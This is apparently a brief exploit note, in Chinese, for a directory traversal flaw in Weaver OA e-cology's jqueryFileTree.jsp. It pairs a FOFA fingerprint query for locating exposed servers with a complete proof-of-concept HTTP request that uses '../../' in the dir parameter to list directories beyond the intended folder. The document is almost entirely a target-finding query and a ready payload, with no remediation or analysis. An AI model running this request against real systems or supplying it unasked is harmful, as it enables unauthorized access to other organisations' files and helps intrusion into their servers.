

## 泛微OA-E-Cology-JqueryFileTree.jsp目录遍历漏洞


## fofa

```
 app="泛微-OA(e-cology)"
```


## poc

```
GET /hrm/hrm_e9/orgChart/js/jquery/plugins/jqueryFileTree/connectors/jqueryFileTree.jsp?dir=/page/resource/userfile/../../ HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

